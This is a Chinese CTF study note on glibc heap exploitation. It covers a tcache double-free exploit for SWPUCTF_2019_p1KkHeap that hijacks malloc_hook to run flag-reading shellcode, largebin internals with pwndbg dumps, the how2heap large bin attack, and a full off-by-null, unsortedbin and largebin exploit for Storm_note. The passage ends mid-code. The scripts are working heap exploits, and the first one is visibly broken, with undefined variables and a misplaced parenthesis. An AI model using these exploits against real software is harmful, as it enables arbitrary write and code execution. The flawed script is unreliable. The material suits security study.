这题的环境是ubuntu18，也就是说libc版本为2.27，所以可以利用double free，得到heap的基址，之后将申请的第一个chunk的next指针写为tcache_prethread+10的地址，再申请三次同样大小的chunk块，第三个chunk块就是tcache_prethread，之后将某个大小的tcache链的chunk地址修改成0x66660000中的一个位置，以及将所有tcachebin链的大小改为7，free chunk放到unsortedbin后得到libc基址。之后将malloc位置中的内容改为写入shellcode的地方，再次申请块就可以得到flag。

payload如下

```python
from heapq import heapify
from pwn import *

exe = ELF("./SWPUCTF_2019_p1KkHeap")

context(os="linux", arch="x86-64", log_level="info")
p = remote("node5.buuoj.cn", 29093)
#p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})

def alloc(size):  #最多8次alloc
    io.sendlineafter(b"Choice: ",b'1')
    io.sendlineafter(b"size: ",str(size))
    io.recvuntil(b"Done!\n")

def show(idx):
    io.sendlineafter(b"Choice: ",b'2')
    io.sendlineafter(b"id: ",str(idx))
    io.recvuntil(b"content: ")

def edit(idx,content):
    io.sendlineafter(b"Choice: ",b'3')
    io.sendlineafter(b"id: ",str(idx))
    io.recvuntil(b"content: ")
    io.sendline(content)

def free(idx):   #最多3次free
    io.sendlineafter(b"Choice: ",b'4')
    io.sendlineafter(b"id: ",str(idx))
    io.recvuntil(b"Done!\n")

alloc(0x90)#0
free(0)
free(0)
show(0)
p.recvline()
heap = u64(p.recvline()[:-1].ljust(8,b'\x00')-0x260)
success("heap: " + hex(heap))
alloc(0x90)#1
edit(1,p64(heap+0x10))
alloc(0x90)#2
alloc(0x90)#3 
edit(3,b'\x07'*0x40)
alloc(0x80)#4
free(4)
show(4)
malloc_hook_add=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-96-0x10#
log.success(hex(malloc_hook_add))
magic_add=0x66660000
edit(3,b'\xff'*0x40+b'\x00'*0x30+p64(malloc_hook_add)+p64(magic_add)) #修改0x80和0x90的tcachebin为malloc_hook和rwx内存
io.recvuntil(b"Done!\n")
flag_add=heap_base+0x270 #将flag读入堆区
shellcode=shellcraft.open("/flag")
shellcode+=shellcraft.read(3,flag_add,0x30)
shellcode+=shellcraft.write(1,flag_add,0x30)
shellcode=asm(shellcode)
alloc(0x80) #5 申请到rwx内存
edit(5, shellcode)
io.recvuntil(b"Done!")
sleep(1)
alloc(0x70) #6 申请到malloc_hook地址
edit(6, p64(magic_add))#将malloc_hook指向shellcode
alloc(0x10) #7 执行malloc_hook

io.interactive()
```

## large bin

largebin与smallbin有点类似，都是两个bins管理一组堆块。但是也存在不同点，largebin是管理一定size范围的堆块，而smallbin是管理固定size的堆块，这里在glibc中的bins其实就是smallbin、largebin堆块的总和。

```c
// 两个数组宏定义
#define NBINS             128
#define NSMALLBINS         64

/* Normal bins packed as described above */
mchunkptr bins[NBINS * 2 - 2];

```

这里乘2的意思其实就表示着俩个bins组合成一个smallbin或者一个largebin，其中一个bin用于指向最后被释放的堆块，另一个bin用于指向最先被释放的堆块，这样其实就构成了一个双向链表。

smallbin 和 largebin 里存的本质上都是**已经完成合并的空闲 chunk**；其中 smallbin 按**固定大小**分桶，每个 bin 只放同一内部 size 的块，在 64 位默认 glibc 中通常是内部 size 小于 `0x400` 的 chunk，而 largebin 按**大小区间**分桶，同一个 bin 里允许出现不同大小的 chunk，并按大小顺序组织，以便后续按 best-fit 方式挑选合适块；二者本质上都是双向链表。

`free` 之后 chunk 会先尝试进入 tcache，进不去的话小块可能先去 fastbin，普通块则在合并后先进入 unsorted bin；之后在**后续某次 malloc 扫描 unsorted** 时，如果某块刚好满足请求就会被直接拿走，同时结束这个扫描过程，若一直没有合适的，则会按 size 被正式分fa流到 smallbin 或 largebin，而当largebin中有东西，且请求的chunk大小小于largebin中的chunk大小时，会从large的大块切分然后分配，切分出来的 remainder 也会先回到 unsorted，等待下一轮处理。

简单来说，malloc分配基址如下

先看 tcache

再处理 unsorted

若 unsorted 没直接命中 exact fit，就把 traversed chunk 分流进 smallbin / largebin

然后对 largebin 做 best-fit 搜索

再不行就继续扫更大的 bins，最后才去 top chunk。

smallbin是FIFO，largebin是按 size 排序的 best-fit 结构。对于相同 size 的 chunk，glibc 还有“插入第二个位置、尽量不删第一个节点”的特殊策略。

下图是一个largebin中chunk的示例



我们查看bins，还会发现一些信息，信息如下，注意到如下要点：largebin中的堆块，一个bins管理的是一定范围内size的堆块，而不是管理固定大小的堆块（像0x70、0x80）这样



接下来我们就以0x700-0x730的这个bins做个例子，画个图之后再来详细描述一下bins的结构。下面给出0x710、0x720、0x730的三个堆块，结合上图的bins链表，我们就可以画出一个简单的bins堆块结构的图片


我们bins结构的图片如下，这样其实看不出什么东西，主要简单介绍一下有这么一个结构


### bin的结构

对于largebin如果是被释放的状态，并且已经被放入了largebin这个链表中，那该堆块的结构就与放入其他bins的堆块结构不同。
一般我们放入其他bins的堆块，其chunk的结构是如下的。

```c
struct chunk{
    unsigned long long int prev_size;
    unsigned long long int size;
    struct chunk *fd;
    struct chunk *bk;
    user_space
}
```

而我们处于largebin中的堆块，其结构是像这样的一个结构，其实也就是堆块结构中的fd_nextsize和bk_nextsize这两个结构被启用了。

```c
struct chunk{
    unsigned long long int prev_size;
    unsigned long long int size;
    struct chunk *fd;
    struct chunk *bk;
    struct chunk *fd_nextsize;
    struct chunk *bk_nextsize;
    user_space
}
```

### nextsize链接机制

正如上图所示，nextsize是连接的是同一个bins中，size大小相邻的堆块。由于large_bin是管理一定范围的堆块，所以我们就需要nextsize位去管理它的size位，这样才能将不同size的堆块统一管理起来。

#### 情况一

接下来为了深度理解一下nextsize的链接机制，我会给出几种情况的例子，以便于我们更好理解。接下来就是第一种情况，一个large_bin中，有多个相同大小的堆块，此时我们的nextsize应该如何。

以下列代码为例

```c
#include<stdio.h>
#include<malloc.h>
int main(){
        void *ptr[10];
        int i;
        for(i=0;i<5;i++)
        {
                ptr[i]=malloc(0x700);
                malloc(0x10);
        }
        malloc(0x20);

        for(i=0;i<5;i++)
        {
                free(ptr[i]);
        }
        malloc(0x780);
        return 0;
}// gcc -g -o large_bin2 large_bin2.c
```

我们执行完malloc(0x780)后查看堆块布局，此时我们发现只有在我们最先释放的堆块中，启用了fd_nextsize、bk_nextsize，但是我们释放的堆块中并没有不同size大小的堆块，所以我们就会导致，我们的fd_nextsize、bk_nextsize都会指向自己。

#### 情况二

如果我们不同size的大小相互交替进行释放，该堆块的布局会是这样的。

```c
#include<stdio.h>
#include<malloc.h>
int main(){
        void *ptr[10];
        void *ptr1[10];
        int i;
        for(i=0;i<2;i++)
        {
                ptr[i]=malloc(0x700);
                malloc(0x10);
                ptr1[i]=malloc(0x710);
                malloc(0x10);
        }
        malloc(0x20);

        for(i=0;i<2;i++)
        {
                free(ptr[i]);
                free(ptr1[i]);
        }
        malloc(0x780);
        return 0;
}// gcc -g -o large_bin3 large_bin3.c
```

```bash
largebins
0x700-0x730: 0x555555559a30 —▸ 0x55555555a8a0 —▸ 0x555555559000 —▸ 0x55555555a170 —▸ 0x7ffff7e15fd0 (main_arena+1296) ◂— 0x555555559a30

pwndbg> heap
Free chunk (largebins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x710 (with flag bits: 0x711)
fd: 0x55555555a170
bk: 0x55555555a8a0
fd_nextsize: 0x555555559a30
bk_nextsize: 0x555555559a30

Allocated chunk
Addr: 0x555555559710
Size: 0x300 (with flag bits: 0x300)

Allocated chunk | PREV_INUSE
Addr: 0x555555559a10
Size: 0x20 (with flag bits: 0x21)

Free chunk (largebins) | PREV_INUSE
Addr: 0x555555559a30
Size: 0x720 (with flag bits: 0x721)
fd: 0x55555555a8a0
bk: 0x7ffff7e15fd0
fd_nextsize: 0x555555559000
bk_nextsize: 0x555555559000

Allocated chunk
Addr: 0x55555555a150
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555a170
Size: 0x710 (with flag bits: 0x711)
fd: 0x7ffff7e15fd0
bk: 0x555555559000
fd_nextsize: 0x00
bk_nextsize: 0x00

Allocated chunk
Addr: 0x55555555a880
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555a8a0
Size: 0x720 (with flag bits: 0x721)
fd: 0x555555559000
bk: 0x555555559a30
fd_nextsize: 0x00
bk_nextsize: 0x00
```

我们发现我们释放两个大小相同的堆块，但是我们的fd_nextsize和bk_nextsize只有最先释放的堆块被启用

接下来我们查看一下bins的结构，此时我们bins的结构可以做如下总结：

- chunk的size位越大的chunk，逻辑位置更靠近largebin，chunk的size位越小的chunk，更远离largebin
- 相同size位越大的chunk，越迟释放的chunk，越远离largebin，而越早释放的chunk，越靠近largebin的大小
- 同尺寸 chunk 的“第一个代表”会尽量保持不动，新来的同尺寸 chunk 会插到它后面。这样做是为了让 nextsize 那套索引不用频繁改线，后面分配时也会尽量避免拿走某个 size 组的第一个代表节点。

#### 情况三

我们接下来查看一下4个不同大小的chunk释放之后nextsize的逻辑结构。

```bash
0x700-0x730: 0x55555555a890 —▸ 0x55555555c570 —▸ 0x55555555a150 —▸ 0x55555555be30 —▸ 0x555555559a20 —▸ 0x55555555b700 —▸ 0x555555559000 —▸ 0x55555555afe0 ◂— ...

Free chunk (largebins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x700 (with flag bits: 0x701)
fd: 0x55555555afe0
bk: 0x55555555b700
fd_nextsize: 0x55555555a890
bk_nextsize: 0x555555559a20

Allocated chunk
Addr: 0x555555559700
Size: 0x300 (with flag bits: 0x300)

Allocated chunk | PREV_INUSE
Addr: 0x555555559a00
Size: 0x20 (with flag bits: 0x21)

Free chunk (largebins) | PREV_INUSE
Addr: 0x555555559a20
Size: 0x710 (with flag bits: 0x711)
fd: 0x55555555b700
bk: 0x55555555be30
fd_nextsize: 0x555555559000
bk_nextsize: 0x55555555a150

Allocated chunk
Addr: 0x55555555a130
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555a150
Size: 0x720 (with flag bits: 0x721)
fd: 0x55555555be30
bk: 0x55555555c570
fd_nextsize: 0x555555559a20
bk_nextsize: 0x55555555a890

Allocated chunk
Addr: 0x55555555a870
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555a890
Size: 0x730 (with flag bits: 0x731)
fd: 0x55555555c570
bk: 0x7ffff7e15fd0
fd_nextsize: 0x55555555a150
bk_nextsize: 0x555555559000

Allocated chunk
Addr: 0x55555555afc0
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555afe0
Size: 0x700 (with flag bits: 0x701)
fd: 0x7ffff7e15fd0
bk: 0x555555559000
fd_nextsize: 0x00
bk_nextsize: 0x00

Allocated chunk
Addr: 0x55555555b6e0
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555b700
Size: 0x710 (with flag bits: 0x711)
fd: 0x555555559000
bk: 0x555555559a20
fd_nextsize: 0x00
bk_nextsize: 0x00

Allocated chunk
Addr: 0x55555555be10
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555be30
Size: 0x720 (with flag bits: 0x721)
fd: 0x555555559a20
bk: 0x55555555a150
fd_nextsize: 0x00
bk_nextsize: 0x00

Allocated chunk
Addr: 0x55555555c550
Size: 0x20 (with flag bits: 0x20)

Free chunk (largebins) | PREV_INUSE
Addr: 0x55555555c570
Size: 0x730 (with flag bits: 0x731)
fd: 0x55555555a150
bk: 0x55555555a890
fd_nextsize: 0x00
bk_nextsize: 0x00

Allocated chunk
Addr: 0x55555555cca0
Size: 0x20 (with flag bits: 0x20)

Allocated chunk | PREV_INUSE
Addr: 0x55555555ccc0
Size: 0x30 (with flag bits: 0x31)

Allocated chunk | PREV_INUSE
Addr: 0x55555555ccf0
Size: 0x2010 (with flag bits: 0x2011)

Top chunk | PREV_INUSE
Addr: 0x55555555ed00
Size: 0x1b300 (with flag bits: 0x1b301)
```

可以看到，和情况二差不多，fd_nextsize指向下一个更大的，第一个被free的chunk，bk_nextsize指向上一个

### large bin attack 2.27版本

这里选用how2heap中的large bin attack的例子来解释，程序代码如下

```c
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

    [...]

              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;

    [...]

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
 
int main()
{
    fprintf(stderr, "这个文件展示的是large bin attack,这个攻击是通过写一个比较大的无符号长整型值到栈上\n");
    fprintf(stderr, "在实际中, large bin attack通常是为进一步的攻击做准备,例如覆盖libc中的全局变量global_max_fast,之后再进一步进行fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "让我们首先查看一下我们想要覆盖目标栈上的地址:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x420);
    fprintf(stderr, "现在,我们在堆中分配第一个large chunk地址为: %p\n", p1 - 2);

    fprintf(stderr, "并且分配另一个fastbin chunk为了避免在第一个分配到chunk处于释放的状态时,其与接下来申请的large chunk合并\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x500);
    fprintf(stderr, "此时,我们在堆块中申请了第二个,地址如下: %p\n", p2 - 2);

    fprintf(stderr, "这时,我们再分配另一个fastbin chunk,为了继续避免第二个堆块在释放的状态中,与后一个large chunk合并\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x500);
    fprintf(stderr, "最后, 我们在堆中分配了第三个large chunk,其地址如下: %p\n", p3 - 2);
 
    fprintf(stderr, "我们再申请第三个fastbin chunk防止第三个lagre chunk释放后与top chunk合并\n\n");
    malloc(0x20);
 
    free(p1);
    free(p2);
    fprintf(stderr, "现在我们释放第一个和第二个large chunk,它们将被插入到unsorted bin中:"
           " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));

    malloc(0x90);
    fprintf(stderr, "现在,我们分配一个chunk,这个chunk的大小,要比被释放的第一个large chunk更小,这样我们使用malloc申请的时候就会从first large chunk切割内存分配给我们申请的堆块.分配过后first large chunk仍然还在unsorted中,但是被释放的第二个large chunk已经被放入到了large bin链表中,现在unsroted_bin中结构如下:[ %p ]\n\n", (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "现在,我们释放第三个large chunk,此时它将被插入到unsorted bin中:[ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
    //------------VULNERABILITY-----------

    fprintf(stderr, "现在模拟一个能修改第二个被释放的large chunk的size位、bk指针、bk_nextsize指针\n");
    fprintf(stderr, "总的来说, 我们减少被释放的第二个large chunk的size位,迫使malloc插入第三个被释放的large chunk位于large bin链表的头部.为了覆盖栈上的值,我们设置bk指针为我们stack_var1-0x10字节的地址,设置bk_nextsize为stack_var2-0x20字节的地址\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);
 
    fprintf(stderr, "让我们再次分配,此时被释放的第三个large chunk正在被插入到large bin链表中,在这段时间中,目标应该已经被重新赋值了:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    // sanity check
    assert(stack_var1 != 0);
    assert(stack_var2 != 0);

    return 0;
}
```

简单的说明一下这个例子的执行流程：首先定义了两个变量stack_var1和stack_var2，并且都赋值为0。接下来打印出两个变量的地址stack_var1_addr和stack_var2_addr以及两个变量中的值。

接下来分别申请size为0x330、0x410、0x410三个大堆块p1、p2、p3，以及三个size为0x20的小堆块。然后释放掉p1和p2，并申请了一个size为0x90的堆块，继续释放p3.

接着直接修改p2的size、fd、bk、fd_nextsize、bk_nextsize。接着又申请了一个size为0xa0大小的堆块。再次打印stack_var1、stack_var2的地址和值

利用gdb，在第14行下断点，我们看一下打印出来的stack_var1和stack_var2的地址：

```bash
stack_var1 (0x7fffffffc258): 0
stack_var2 (0x7fffffffc250): 0
```

接下来在21行下断点，完成堆块的创建，堆块初始状态如下

```bash
Allocated chunk | PREV_INUSE
Addr: 0x405300
Size: 0x330 (with flag bits: 0x331)

Allocated chunk | PREV_INUSE
Addr: 0x405630
Size: 0x30 (with flag bits: 0x31)

Allocated chunk | PREV_INUSE
Addr: 0x405660
Size: 0x410 (with flag bits: 0x411)

Allocated chunk | PREV_INUSE
Addr: 0x405a70
Size: 0x30 (with flag bits: 0x31)

Allocated chunk | PREV_INUSE
Addr: 0x405aa0
Size: 0x410 (with flag bits: 0x411)

Allocated chunk | PREV_INUSE
Addr: 0x405eb0
Size: 0x30 (with flag bits: 0x31)

Top chunk | PREV_INUSE
Addr: 0x405ee0
Size: 0x20120 (with flag bits: 0x20121)
```

接下来我们将断点下载第24行，使程序释放p1和p2，这里需要注意的是释放顺序，先释放的是p1，后释放的是p2

```bash
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x405660 —▸ 0x7ffff7e15b20 (main_arena+96) ◂— 0x405660 /* '`V@' */
smallbins
0x330: 0x405300 —▸ 0x7ffff7e15e40 (main_arena+896) ◂— 0x405300
largebins
empty
```

这里不知道为什么p1已经放入smallbin了，按理来说不应该，继续往下

在26行打断点

```bash
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x4053a0 —▸ 0x7ffff7e15b20 (main_arena+96) ◂— 0x4053a0
smallbins
empty
largebins
0x400-0x430: 0x405660 —▸ 0x7ffff7e15f10 (main_arena+1104) ◂— 0x405660 /* '`V@' */


Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x4053a0
Size: 0x290 (with flag bits: 0x291)
fd: 0x7ffff7e15b20
bk: 0x7ffff7e15b20

Allocated chunk
Addr: 0x405630
Size: 0x30 (with flag bits: 0x30)

Free chunk (largebins) | PREV_INUSE
Addr: 0x405660
Size: 0x410 (with flag bits: 0x411)
fd: 0x7ffff7e15f10
bk: 0x7ffff7e15f10
fd_nextsize: 0x405660
bk_nextsize: 0x405660
```

void* p4 = malloc(0x90);这段代码其实背后做了很多的事情：

从unsorted bin中拿出最后一个chunk(P1)
把这个chunk(P1)放进small bin中，并标记这个small bin中有空闲的chunk
从unsorted bin中拿出最后一个chunk(P2)（P1被拿走之后P2就作为最后一个chunk了）
把这个chunk(P2)放进large bin中，并标记这个large bin有空先的chunk
现在unsorted bin中为空，从small bin中的P1中分割出一个小chunk，满足请求的P4，并把剩下的chunk(0x330 - 0xa0后记P1_left)放回unsorted bin中

接下来我们将断点端在第28行，使程序释放P3：

```bash
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x405aa0 —▸ 0x4053a0 —▸ 0x7ffff7e15b20 (main_arena+96) ◂— 0x405aa0
smallbins
empty
largebins
0x400-0x430: 0x405660 —▸ 0x7ffff7e15f10 (main_arena+1104) ◂— 0x405660 /* '`V@' */


```

可以看到P3挂到了unsrotedbin上

接下来断点达到34，对比修改前后的P2

```bash
# 修改前
Free chunk (largebins) | PREV_INUSE
Addr: 0x405660
Size: 0x410 (with flag bits: 0x411)
fd: 0x7ffff7e15f10
bk: 0x7ffff7e15f10
fd_nextsize: 0x405660
bk_nextsize: 0x405660

# 修改后
Allocated chunk | PREV_INUSE
Addr: 0x405660
Size: 0x3f0 (with flag bits: 0x3f1)


pwndbg> x/16gx 0x405660
0x405660:       0x0000000000000000      0x00000000000003f1
0x405670:       0x0000000000000000      0x00007fffffffc218
0x405680:       0x0000000000000000      0x00007fffffffc200
```

可以看到，有五处内容被修改：

size部分由原来的0x411修改成0x3f1(重点※※※※※)
fd部分置空（不超过一个地址位长度的数据都可以）
bk由0x7ffff7dd1f68修改成了stack_var1_addr - 0x10(0x7fffffffdf18)
fd_nextsize置空（不超过一个地址位长度的数据都可以）
bk_nextsize修改成stack_var2_addr - 0x20(0x7fffffffdf10)



这里需要注意的是一个chunk的bk指向的是它的后一个被释放chunk的头指针，bk_nextsize指向后一个与当前chunk大小不同的第一个空闲块的头指针：

也就是说当前P2的bk指向的是一个以stack_var1_addr - 0x10为头指针的chunk，这里记做fake_chunk1，那么就意味着stack_var1_addr是作为这个fake_chunk1的fd指针。那么此时P2 --> bk --> fd就是stack_var1_addr

P2的fd_nextsize指向的是一个以stack_var2_addr为头指针的chunk，这里记做fake_chunk2，那么就意味着stack_var2_addr是作为这个fake_chunk2的fd_nextsize指针。那么此时P2 --> bk_nextsize --> fd_nextsize就是stack_var2_addr

接下来我们在第36行下断点，使程序执行malloc(0x90);完成申请size为0xa0的chunk。这一步也很关键，与第一次分割chunk的过程一致，首先从unsorted bin中拿出最后一个chunk(P1_left size = 0x290)，并放入small bin中标记该序列的small bin有空闲chunk。再从unsorted bin中拿出最后一个chunk(P3 size = 0x410)，P3的size是大于0x3f0的，所以理所应当应该向large bin中挂

从unsorted bin中拿出P3的时候，首先会判断P3应该归属的bin的类型，这里根据size判断出是large bin。由于large chunk的数据结构是带有fd_nextsize和bk_nextsize的，且large bin中已经存在了P2这个块，所以首先需要进行比较两个large chunk的大小，并根据大小情况制定两个large chunk的fd_nextsize、bk_nextsize、fd、bk的指针。在2.23的glibc中的malloc.c文件中，比较的过程如下：



这段代码就是遍历比较P3_size < P2_size的过程，我们只看while循环中的条件即可，这里的条件是当前从unsorted bin中拿出的chunk的size是否小于large bin中前一个被释放chunk的size，如果小于，则执行while循环中的流程。**(重点)但由于P2的size被我们修改成了0x3f0(重点)**，P3的size为0x410，P3_size > P2_size，所以不执行while循环中的代码，直接进入接下里的判断


前一个判断的是P3_size < P2_size的情况，那么接下来判断的就是P3_size == P2_size的情况，很显然也不是，所以这条if判断也不执行



那么就只剩下一种情况了，就是比较P3_size > P2_size的情况下执行上图中的内容，else中执行的就是将P3插入large bin中并制定P2和P3两个large chunk的fd_nextsize和bk_nextsize的过程。这里我们先不着急解释代码，回顾一下前面修改P2结构内容的情况：

P2->bk->fd = stack_var1_addr（P2的fd指向的堆块的fd指向的是stack_var1的地址）
P2->bk_nextsize->fd_nextsize = stack_var2_addr（P2的bk_nextsize指向的堆块的fd_nextsize指向的是stack_var2的地址）
我们将上图的代码根据这个例子的情况翻译一下

```c
	else
		{
			P3->fd_nextsize = P2;  //P3的fd_nextsize要修改成P2的头指针
			P3->bk_nextsize = P2->bk_nextsize; //P3的bk_nextsize要修改成P2的bk_nextsize指向的地址
			P2->bk_nextsize = P3;  //P2的bk_nextsize要修改成P3的头指针
			P3->bk_nextsize->fd_nextsize = P3; //P3的bk_nextsize所指向的堆块的fd_nextsize要修改成P3的头指针
		}
	bck = P2->bk; //bck等于P2的bk
```

那么这里就像是做一个二元一次方程组一样，已知条件为：

P2->bk_nextsize->fd_nextsize = stack_var2_addr
P3->bk_nextsize = P2->bk_nextsize
P3->bk_nextsize->fd_nextsize = P3

那么就可以导出结论：**stack_var2的值 = P3头指针，所以stack_var2变量中的内容就被修改成了P3的头指针**

在执行完对P3和P2的fd_nextsize和bk_nextsize的制定之后，还需要对两个large chunk的fd和bk进行制定：



我们将上图的代码根据这个例子的情况翻译一下：

```c
mark_bin(av, victim_index);
P3->bk = p2->bk; //P3的bk指针要等于P2的bk指针
P3->fd = P2; //P3的fd指针要等于P2的头指针
P2->bk = P3; //P2的bk指针要等于P3的头指针
P2->bk->fd = P3; //P2的bk指针指向的堆块的fd指针要等于P3的头指针
```

那么这依然还是一个二元一次方程组，已知条件为：

P2->bk->fd = stack_var1_addr
P2->bk->fd = P3

那么即可的出结论stack_var1的值 = P3的头指针，所以**stack_var1的值在这个流程中被修改成了P3的头指针**

最后我们将直接运行程序至结束,可以看到此时stack_var1和stack_var2中的值已经被修改成了P3的头指针

#### Large bin attack利用条件

可以修改一个large bin chunk的data

从unsorted bin中来的large bin chunk要紧跟在被构造过的chunk的后面

#### large bin attack利用作用

能往目标地址塞一个堆指针

#### 总结

这个攻击主要就是利用两个chunk，大的为p3,小的为p2。我们可以伪造较小堆块p2的bk和bk_nextsize，分别指向target1-0x10,target2-0x20，放进large_bins里(可以的话，large_bins在此前最好是空的)。而大堆块p3在经过malloc后放进large_bins里，将p3的头指针赋值给了target1,target2，完成了任意地址写。将p3的头指针写进target1,2里后，可以结合其它House of 系列进行攻击

#### 例题 2019西湖论剑 Strom_note(house of strom?)


mallopt(1,0),禁用了fastbin,也就是说我们不能利用fastbin attack
而且 mmap(0xABCD00000）

alloc


edit(off_by_null)


delete


backdoor


也就是说，输入666后，程序会将你的输入和0xABCD0100处的内容进行比较，若一样，即可以得到bash

但是0xABCD0100中的内容是随机读入的，这题也没有show，所以想读出这里面的内容很难，我们应该想办法修改这里面的内容

若直接用largebin修改，会将这里面的内容修改成一个chunk头，我们读不出来，而且其大小为0x30，一个chunk头明显也不够，所以这里得考虑如何在目标位置附近创建一个fake_chunk，来直接覆写其中的内容

这题没有fastbin，没有tcachebin，那只能是想办法将这个区域挂在unsortedbin上面，然后分配得到这个位置的chunk块，修改chunk块

要将这个位置挂到unsortedbin上，就得想办法修改unsortedbin上的chunk，或者修改unsortedbin的头节点中的指针，那这题没法用前者，因为无法修改size，所以只能是后者。

所以这里要用一次unsortedbin attack和一次largebin attack，那就得构造两个uaf，这里选择用用off_by_null来构造一个堆的重叠之后构造uaf

这里edit会自动补一个"/0"也就是0x00，我们可以利用这个0x00，将一个chunk_size的p位覆盖成0，然后往前合并，得到重叠的chunk区域，这里要注意的是，最小得创建0x100大小的chunk块，不然0x00会把size完全覆盖

```python
create(0x28)  #0
create(0x528) #1
create(0xf8)  #2
create(0x28)  #3
create(0x28)  #4
create(0x518) #5
create(0xf8)  #6
create(0x28)  #7

delete(0)
edit(1,'A'*0x520+p64(0x560))
delete(2)

create(0x38) #0
create(0x610)#2

delete(4)
edit(5,'A'*0x510+p64(0x550))
delete(6)

create(0x38) #4
create(0x600)#6
```

此时chunk1的user_data指向了chunk2的head_data，造成了重叠，5和6也是相同的

构造完重叠后，这时候就可以利用largebin attach和unsortedbin attack来申请处target附近的chunk

先将较小的chunk放入largebin中，用来进行largebin attack

```python

delete(6)
delete(2)
create(0x610)#2
```

然后，就是largebin attack和unsortedbin attack目标的选择

从前面的内容可以得到，largebin attack的目标位置为 bk=target-0x10=chunk6_head，bk_size=target-0x20=chunk6_head，unsortedbin attack的目标位置为 bk = target-0x10 = unsorted_bin_head

因为unsortedbin attack的原理是unlink时的操作，所以当修改bk为target-0x10后，其bk和fd都会变成unsorted_bin_head

那这里chunk2是唯一一个在unsortedbin中的chunk，所以将chunk2的bk改成fake_chunk的位置后，就可以直接把fake_chunk挂到unsortedbin中，且能把target-0x10的位置改成unsortedbin_head

之后我们可以用这个作为定位，将unsortedbin_head位置设为fd，就可以得到size和bk的相对位置

然后就可以利用largebin修改bk和size的内容，这里修改size很巧妙，是利用堆地址开头的5f，然后构造偏移，将size低地址改为5f

具体的攻击代码如下

```python
edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5)) #第一个是bk，所以是+8，第二个先减去0x38+0x20，所以写到了0xABCD0100-0x18+5，-0x18是在size的位置，-5使得size刚好偏移到5f
delete(2)
edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20)) #fd在0xABCD0100-0x20+0x10处
```

此时fakechunk的size为0x50，之后申请0x50size的chunk就能得到fake位置chunk的写权限，然后这里是从f0开始写的，填充两个p64，然后就能写100的位置

```python
create(0x48)#2
gdb.attach(p)
edit(2,p64(0)*2+'A'*0x30)
```

完整payload如下

```python
from pwn import *

p = process('./Storm_note')
#p = remote('ctf1.linkedbyx.com',10476)
elf = ELF('./Storm_note')
libc = ELF('./libc-2.23.so')
#max_fast = 

def create(size):
    p.sendlineafter('Choice: ','1')
    p.sendlineafter('size ?\n',str(size))

def edit(index,content):
    p.sendlineafter('Choice: ','2')
    p.sendlineafter('Index ?\n',str(index))
    p.sendafter('Content: \n',content)

def delete(index):
    p.sendlineafter('Choice: ','3')
    p.sendlineafter('Index ?\n',str(index))

def getshell():
    p.sendlineafter('Choice: ','666')
    p.sendlineafter('If you can open the lock, I will let you in','A'*0x30)

create(0x28)  #0
create(0x528) #1
create(0xf8)  #2
create(0x28)  #3
create(0x28)  #4
create(0x518) #5
create(0xf8)  #6
create(0x28)  #7

delete(0)
edit(1,'A'*0x520+p64(0x560))
delete(2)

create(0x38) #0
create(0x610)#2

delete(4)
edit(5,'A'*0x510+p64(0x550))
delete(6)

create(0x38) #4
create(0x600)#6
delete(6)

delete(2)
create(0x610)#2

edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
delete(2)
edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))

create(0x48)#2
gdb.attach(p)
edit(2,p64(0)*2+'A'*0x30)

getshell()

p.interactive()
```

### glibc-2.31版本的攻击方式

新增了一个检测

```c
else
{
       victim->fd_nextsize = fwd;
       victim->bk_nextsize = fwd->bk_nextsize;
